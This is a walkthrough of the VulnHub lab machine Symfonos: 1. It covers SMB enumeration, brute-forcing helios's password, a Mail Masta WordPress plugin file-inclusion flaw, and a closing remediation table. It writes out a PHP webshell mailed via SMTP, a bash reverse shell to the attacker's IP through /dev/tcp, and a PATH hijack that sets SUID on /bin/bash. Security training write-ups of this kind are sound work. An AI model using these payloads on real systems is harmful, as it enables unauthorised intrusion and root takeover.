








# Symfonos: 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.140 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**Symfonos: 1** is built around an anonymous SMB share leaking password hints, which lead to valid SMB credentials for the user `helios`. His personal share revealed a hidden WordPress installation running an outdated, vulnerable plugin. A Local File Inclusion vulnerability in that plugin was combined with SMTP mailbox poisoning to achieve remote code execution, and privilege escalation was reached by hijacking the `PATH` used by a SUID binary.

**Attack chain:** Nmap recon → SMB anonymous share leaks password hints → SMB credential brute-force (helios:qwerty) → helios's personal share reveals hidden WordPress path (/h3l105) → WordPress plugin enumeration finds outdated Mail Masta 1.0 → Local File Inclusion (EDB-40290) → SMTP mailbox log poisoning combined with LFI → Remote Code Execution as helios → Reverse shell → SUID binary PATH hijacking (/opt/statuscheck) → Root

The machine expects the hostname `symfonos.local` to resolve to the target, so `/etc/hosts` was updated:

```
192.168.32.140  symfonos.local
```

## 1. Reconnaissance





```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.140

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
25/tcp  open  smtp        syn-ack ttl 64 Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

...
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2026-09-24T14:05:46-05:00
```

Four services of interest: SSH, SMTP (Postfix), Apache, and Samba.

## 2. SMB Enumeration & Credential Discovery

```
enum4linux 192.168.32.140

[+] Got OS info for 192.168.32.140 from srvinfo:
        SYMFONOS       Wk Sv PrQ Unx NT SNT Samba 4.5.16-Debian

...

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: helios   Name:   Desc:

user:[helios] rid:[0x3e8]

...

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)

[+] Attempting to map shares on 192.168.32.140

//192.168.32.140/print$ Mapping: DENIED Listing: N/A Writing: N/A
//192.168.32.140/helios Mapping: DENIED Listing: N/A Writing: N/A
//192.168.32.140/anonymous      Mapping: OK Listing: OK Writing: N/A
```

enum4linux revealed a single system user, `helios`, and four SMB shares. Only `anonymous` was accessible without credentials.

```
smbclient //192.168.32.140/anonymous -N

smb: \> ls
  .                                   D        0  Fri Jun 28 21:14:49 2019
  ..                                  D        0  Fri Jun 28 21:12:15 2019
  attention.txt                       N      154  Fri Jun 28 21:14:49 2019

                19994224 blocks of size 1024. 17182956 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (50.1 KiloBytes/sec) (average 50.1 KiloBytes/sec)

cat attention.txt

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!

Next person I find using one of these passwords will be fired!

-Zeus
```

The `anonymous` share leaked a note from "Zeus" naming three weak passwords in use on the box. These were used against the `helios` account found earlier:

```
msf auxiliary(scanner/smb/smb_login) > set smbuser helios
msf auxiliary(scanner/smb/smb_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf auxiliary(scanner/smb/smb_login) > set rhosts 192.168.32.140
msf auxiliary(scanner/smb/smb_login) > exploit

[+] 192.168.32.140:445    - Success: '.\helios:qwerty'
```

Credentials confirmed: **helios:qwerty**. This gave access to the `helios` share:

```
smbclient //192.168.32.140/helios -U helios

smb: \> ls
  .                                   D        0  Fri Jun 28 20:32:05 2019
  ..                                  D        0  Fri Jun 28 20:37:04 2019
  research.txt                        A      432  Fri Jun 28 20:32:05 2019
  todo.txt                            A       52  Fri Jun 28 20:32:05 2019

                19994224 blocks of size 1024. 17182540 blocks available
smb: \> mget *
Get file research.txt? y
getting file \research.txt of size 432 as research.txt (210.9 KiloBytes/sec) (average 210.9 KiloBytes/sec)
Get file todo.txt? y
getting file \todo.txt of size 52 as todo.txt (25.4 KiloBytes/sec) (average 118.2 KiloBytes/sec)

cat todo.txt
1. Binge watch Dexter
2. Dance
3. Work on /h3l105

cat research.txt
Helios (also Helius) was the god of the Sun in Greek mythology...
```

`todo.txt` pointed to a hidden web path: `/h3l105`.

## 3. Web Enumeration


Visiting `http://192.168.32.140/` shows a full-page image with no other content of interest.

```
gobuster dir -u http://symfonos.local/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt

manual               (Status: 301) [Size: 317] [--> http://symfonos.local/manual/]
```

Nothing beyond the default Apache manual on the root. Following the hint from `todo.txt`:


`http://symfonos.local/h3l105/` hosts a default WordPress installation ("helios site").

```
gobuster dir -u http://symfonos.local/h3l105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt

wp-content           (Status: 301) [Size: 328] [--> http://symfonos.local/h3l105/wp-content/]
wp-login.php         (Status: 200) [Size: 3284]
wp-includes          (Status: 301) [Size: 329] [--> http://symfonos.local/h3l105/wp-includes/]
wp-admin             (Status: 301) [Size: 326] [--> http://symfonos.local/h3l105/wp-admin/]
```

Standard WordPress directory structure confirmed.

## 4. WordPress Enumeration & Vulnerable Plugin

```
wpscan --url http://symfonos.local/h3l105/ -e u

[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
[+] WordPress theme in use: twentynineteen
[+] Upload directory has listing enabled: http://symfonos.local/h3l105/wp-content/uploads/
[+] admin
[i] 1 user(s) Identified.
```

```
wpscan --url http://symfonos.local/h3l105/ -e ap

[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19 7:52am GMT (12 years ago)
 | [!] Directory listing is enabled

[+] site-editor (v1.1.1, 2017)
[+] akismet (v4.1.2, out of date)
```

`mail-masta` 1.0 is an unmaintained WordPress newsletter plugin from 2014.

```
searchsploit mail-masta 1.0

WordPress Plugin Mail Masta 1.0 - Local File Inclusion              | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2)          | php/webapps/50226.py
WordPress Plugin Mail Masta 1.0 - SQL Injection                     | php/webapps/41438.txt

searchsploit -m php/webapps/40290.txt
cat 40290.txt

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

Source: /inc/lists/csvexport.php
Line 5: include($_GET['pl']);

PoC:
http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```



LFI confirmed against `count_of_send.php?pl=/etc/passwd`.

## 5. SMTP Log Poisoning & Remote Code Execution

Since `/etc/passwd` was readable but there was no PHP source disclosure to abuse directly, a PHP webshell payload was mailed to the `helios` mailbox via SMTP and then included through the same LFI parameter:

```
nc 192.168.32.140 25

220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
EHLO kaskamilla
250-symfonos.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 SMTPUTF8
MAIL FROM:kaskamilla@kaskamilla.com
250 2.1.0 Ok
RCPT TO:helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as AE3BC4002F
QUIT
221 2.0.0 Bye
```

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=ls

...
ajax_camp_send.php
ajaxreport.php
campaign-delete.php
count_of_send.php
create-campaign.php
demo-view-campaign.php
immediate_campaign.php
post_campaign_send.php
test_mail.php
view-campaign-list.php
view-campaign.php
```

Including `/var/mail/helios` executed the injected PHP payload, confirmed by the directory listing returned by `ls`. RCE achieved.

A reverse shell was triggered the same way:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash%20-c%20%27sh%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.32.128%2f4444%200%3E%261%27
```

Decoded `cmd` parameter: `bash -c 'sh -i >& /dev/tcp/192.168.32.128/4444 0>&1'`



Shell stabilized:

```
$ script /dev/null -c bash
^Z
$ stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

```
helios@symfonos:/var/www/html/h3l105/wp-content/plugins/mail-masta/inc/campaign$
```

## 6. Privilege Escalation

```
helios@symfonos:/opt$ find / -perm -4000 2>/dev/null
/opt/statuscheck
```

```
helios@symfonos:/opt$ /opt/statuscheck
HTTP/1.1 200 OK
Date: Thu, 24 Sep 2026 21:30:41 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

`/opt/statuscheck` is a non-standard SUID binary that returns the HTTP headers of the local Apache server when run.

```
helios@symfonos:/opt$ ls -la
-rwsr-xr-x  1 root root 8640 Jun 28  2019 statuscheck
```

`statuscheck` is root-owned and calls `curl -I http://localhost` internally, with `curl` invoked without an absolute path. This was hijacked via `PATH`:

```
helios@symfonos:/tmp$ echo chmod u+s /bin/bash > curl
helios@symfonos:/tmp$ chmod +x curl
helios@symfonos:/tmp$ export PATH=/tmp:$PATH
helios@symfonos:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```



`/opt/statuscheck` resolved `curl` from `/tmp` first, running the fake script and setting the SUID bit on `/bin/bash`. `bash -p` preserved the effective root privilege.



Root confirmed.



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous SMB share leaked plaintext password hints | Disable anonymous/guest SMB access; never store credential hints in publicly readable shares |
| Weak, reused password (`qwerty`) for a valid system account | Enforce strong, unique passwords and account lockout policies |
| Outdated, unmaintained WordPress plugin (Mail Masta 1.0, unpatched since 2014) vulnerable to LFI | Keep plugins updated and remove unused/abandoned ones; audit installed plugins regularly |
| User-controlled input passed directly to `include()` | Never pass unsanitized user input to file-inclusion functions; use allow-lists for included files |
| SMTP server allowed arbitrary mail content to be stored and later included via LFI | Harden local mail delivery; treat mailbox files as untrusted, attacker-controlled content |
| SUID binary invoked `curl` without an absolute path | Always use absolute paths for external commands inside SUID/SGID binaries; avoid unnecessary SUID bits |
